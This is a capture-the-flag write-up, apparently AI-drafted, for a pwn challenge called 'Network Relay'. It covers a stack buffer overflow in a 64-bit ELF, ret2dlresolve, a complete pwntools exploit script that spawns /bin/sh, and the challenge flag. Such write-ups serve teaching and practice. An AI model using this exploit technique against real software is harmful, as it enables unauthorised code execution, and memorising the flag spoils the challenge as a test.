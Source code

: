 # Network Relay - Writeup

---

## Exploit Demo

This demo illustrates the exploit process, culminating in shell access via `ret2dlresolve`:

![Alt text](gif/NetworkRelay.gif)

---

## Binary Inspection

### Step 1: Initial Binary Details

```bash
$ file main
```

- 64-bit dynamically linked ELF binary
- Not stripped

![Alt text](img/1.png)

### Step 2: Security Protections

```bash
$ pwn checksec main
```

- **RELRO**: Partial
- **Stack**: No canary
- **NX**: Enabled
- **PIE**: Disabled (base address fixed at 0x400000)

![Alt text](img/2.png)

---

## Static Analysis (IDA Pro)

Reverse engineering the binary shows the vulnerability resides in the `user_input()` function:

### main()

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setup(argc, argv, envp);
  print_logo();
  write(1, "\n>> Network relay handshake initiated. Input routing key to proceed.\n", 0x45uLL);
  user_input();
  key_checker();
  return 0;
}
```

### user_input()

```c
ssize_t user_input()
{
  _BYTE buf[64]; // [rsp+0h] [rbp-40h] BYREF
  return read(0, buf, 0xC8uLL);  // Reads 200 bytes into a 64-byte buffer!
}
```

- This function reads **200 bytes** into a buffer that's only 64 bytes long, introducing a **classic stack-based buffer overflow**.
- The binary has **no stack canary**, making the overflow straightforward to exploit.
- There is **no return-style function** (like `system`, `exit`, or a function pointer) to pivot to.
- **Libc is not provided**, so calling `system("/bin/sh")` via a static address is not viable.

---

## How to Solve

We solve this challenge using **`ret2dlresolve`**, a powerful dynamic linker resolution technique.

**Why?**

- No direct access to libc symbols.
- No system call or syscall gadgets available.
- No return function like `system()` in the binary.
- But the binary is **dynamically linked** — meaning we can exploit the dynamic linker itself to resolve and call `system`.

---

## Vulnerability Summary

- **Buffer Overflow** in `user_input()` via oversized `read()` call.
- **No stack canary** → safe to overflow.
- **NX enabled** → code injection is blocked, so we use a ROP chain.
- **No PIE** → static base makes ROP reliable.
- **No `system` in binary or known libc** → use `ret2dlresolve`.

---

## Exploit Strategy

1. **Overflow the stack** to hijack control flow.
2. **Build a ROP chain** to:

   - Call `read()` again to write the forged `Elf64_Rel`, `Elf64_Sym`, and command string (`/bin/sh`) into memory.
   - Trigger the dynamic linker via `ret2dlresolve()` to resolve `system` and call it with `"/bin/sh"`.

3. **Send second-stage payload** (dlresolve structures + `/bin/sh`).
4. **Get a shell**.

---

## Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

context.binary = exe = ELF('./main')
context.terminal = ['tmux', 'splitw', '-h']

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='continue', *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

io = start()

rop = ROP(exe)
dlresolve = Ret2dlresolvePayload(exe, symbol='system', args=['/bin/sh'])

rop.raw(b'A' * 72)  # Overflow offset
rop.read(0, dlresolve.data_addr)  # Write forged structures into memory
rop.ret2dlresolve(dlresolve)      # Trigger dynamic linker resolution

log.info("ROP Chain:\n" + rop.dump())

io.sendline(rop.chain())
io.sendline(dlresolve.payload)  # Send second-stage payload

io.interactive()
```

---

## Result

After executing the exploit, we successfully resolve and call `system("/bin/sh")` using only what’s available in the binary:

```
$ ./exploit.py
[*] Switching to interactive mode
$ whoami
dexter
$ ls
flag.txt
$ cat flag.txt
RedPointer{dlr3s0lv3_w1ns_4gain}
```

---

## FLAG

```
RedPointer{dlr3s0lv3_w1ns_4gain}
```

---

Let me know if you'd like this in a downloadable `README.md`, image mockups replaced, or integrated into a multi-challenge writeup.
